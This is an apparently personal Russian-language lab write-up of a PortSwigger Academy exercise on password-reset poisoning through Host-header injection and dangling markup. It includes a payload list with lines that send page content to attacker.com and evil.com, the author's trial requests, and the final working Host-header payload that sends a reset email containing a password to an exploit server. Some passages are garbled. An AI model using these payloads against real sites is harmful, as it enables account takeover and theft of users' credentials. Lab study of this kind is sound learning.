



лаба https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup

# Отравление сброса пароля с помощью dangling markup

**"Отравление сброса пароля с помощью dangling markup"** — это продвинутая атака, которая комбинирует две уязвимости:

1. **Уязвимость Host Header**: веб-сайт некорректно включает непроверенные данные из заголовка `Host` в тело письма для сброса пароля[](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)[](https://attacker-codeninja.github.io/2021-09-09-portswigger-notes-on-host-header-attack/).
    
2. **HTML-инъекция через Dangling Markup**: злоумышленник внедряет неполный тег HTML (например, `< img src=x onerror=alert(1)>  (без пробела в начале)

**Использование @**       Внедрение символа @ для создания "ошибочного" URL, который некоторые парсеры обрабатывают неправильно.     Host: example.com:@evil.com

**Двойной Host** Отправка двух заголовков Host. Разные системы (прокси, сервер, приложение) могут прочитать разные значения.    Host: example.com
Host: evil.com

**Передача значения в URI**      Использование абсолютного URI в строке запроса, что заставляет некоторые серверы игнорировать заголовок Host.      GET https://example.com/reset HTTP/1.1
Host: ignored.com


**💣 Полезные нагрузки для Dangling Markup**
Если вы обнаружили, что данные из заголовка отражаются внутри HTML-атрибута в письме, попробуйте эти векторы, чтобы "захватить" последующий контент (например, пароль).

**Незакрытый тег a**     Создаёт "висящую" гиперссылку, которая "захватывает" последующий текст. -  :'<a href='//attacker.com/?


Незакрытый тег img     Попытка загрузить изображение, где в src попадёт последующий текст.
:'<script>fetch('//attacker.com/'+document.body.innerHTML)</script
```

-----

https://0a6800e60484a9c3819170fb00e50060.web-security-academy.net/login


я подставил  хост и обнаружил что в письме отобразилась эта XSS иньекция!




подозреваю, что это уже уязвимость так как можно пробовать в письмо поместить xss скрипт который бы это письмо украл и перенаправил на мой хост! но как? 

вот raw письма 



можно попробовть сделать так: `:'<a href="//attacker-server.com/?

exploit-0ab100f104b9a92081936f4d0154004d.exploit-server.net  эт ссылка на мой хост (хост от лабы)

Host: 0a6800e60484a9c3819170fb00e50060.web-security-academy.net:'<a href='//exploit-0ab100f104b9a92081936f4d0154004d.exploit-server.net/?

вот так, где  exploit-0ab100f104b9a92081936f4d0154004d.exploit-server.net это может быть и мой сервер с функцией логирования запросов как в предыдущей лабе! 
'/>





заметил что вот этот запрос
```html
Host: 0a6800e60484a9c3819170fb00e50060.web-security-academy.net:'<a href='//exploit-0ab100f104b9a92081936f4d0154004d.exploit-server.net/?

вызывает запрос к моему серверу при открытии письма! но данные внутри пустые!
но в прихдящем письме без изменений!
----------


а при запросе Host: 0a6800e60484a9c3819170fb00e50060.web-security-academy.net:'>< img src=x onerror=alert(1)>

вот само письмо в raw  формате:

Sent:     2026-01-27 14:06:35 +0000
From:     no-reply@0a6800e60484a9c3819170fb00e50060.web-security-academy.net
To:       wiener@exploit-0ab100f104b9a92081936f4d0154004d.exploit-server.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0a6800e60484a9c3819170fb00e50060.web-security-academy.net:'>< img src=x onerror=alert(1)>/login'>click here</a> to login with your new password: b7muderFR3</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>

видно то как и куда скрипт мой вставился в письмо!
но: конечно, без указания моего домена мне ничего не пришло

----------------------------------

нужно понять как посместить в запрос Host: 0a6800e60484a9c3819170fb00e50060.web-security-academy.net:'>< img src=x onerror=alert(1)>  вот эту часть :'<a href='//exploit-0ab100f104b9a92081936f4d0154004d.exploit-server.net/? 
которая вернет на мой сервер данные! и еще понять как сделать чтобы чтобы захватить текст письма!

сперва ссылка должна идти вот так как-то :
Host: 0a6800e60484a9c3819170fb00e50060.web-security-academy.net:'<a href='//exploit-0ab100f104b9a92081936f4d0154004d.exploit-server.net/?
и тут в конце как то незакрытый тег каккой-то который захватит все письмо!


либо в таком варанте  Host: 0a6800e60484a9c3819170fb00e50060.web-security-academy.net:'>< img src=x onerror=alert(1)> подставить мой хост  :'<a href='//exploit-0ab100f104b9a92081936f4d0154004d.exploit-server.net/? так чтобы передать мне на сервер + незакрытый теш какой-то чтобы захватить письмо!

----------


-----
Host: 0a6800e60484a9c3819170fb00e50060.web-security-academy.net:'<a href='//exploit-0ab100f104b9a92081936f4d0154004d.exploit-server.net/? 

сработал и сделал запрос к серверу моему но данные пустые внутри (понял ошибку, все было четко - но нужно было в запросе указать карлоса так как письмо ему должно было уйти!)

```
--------


# СРАБОТАЛО
POST /forgot-password HTTP/2
Host: 0a6800e60484a9c3819170fb00e50060.web-security-academy.net:'<a href="//exploit-0ab100f104b9a92081936f4d0154004d.exploit-server.net/? 


"/>
# ВЫВОД 

чужие хосты лаба блокировала!
но благодаря специфики http сервер пропускал, и не проверял что там пропускает!
Host: example.com:8080 такой вид запросов!
: - это разделитель между доменом и портом

' - это  кавычка которая закрывает открывающую кавычку в исходном HTML

-----
письмо в формате raw, соответвенно, и иньекция должна быть в этом формате

сработал вариант типа   
```html:'<a href="//пишу-что-хочу->уязвимость...
где <a href="//..."> создает гиперссылку, и то что она автоматически исполняется в raw - это уязвимость!

<a> - это открывающий тег
href="..." - это главный атрибут, который указывает адрес, куда ведёт ссылка (URL)
</a> - закрывающий тег

так как закрывающего тега нет - то в него войдет все что есть в письме!

```

Итого: уязвимость сработала, потому что приложение, обрабатывая заголовок Host:

1. *Некорректно валидировало формат, разрешая нечисловые значения после двоеточия (:), которые интерпретировались как «порт».
    
2. *Безопасно обрабатывало данные для отображения в браузере, но при этом **не применяло очистку к raw-версии HTML-письма
    
3. *Слепо включало непроверенное пользовательское значение (порт) в _сырую_ HTML-структуру письма, создавая возможность для инъекции.
    

Таким образом, атака стала возможной из-за рассогласования в обработке данных (разные контексты — браузер vs. raw-письмо) и излишне доверчивой логики работы с портом в заголовке Host. Это классический пример того, как сложность системы (наличие двух версий контента) создаёт брешь в безопасности.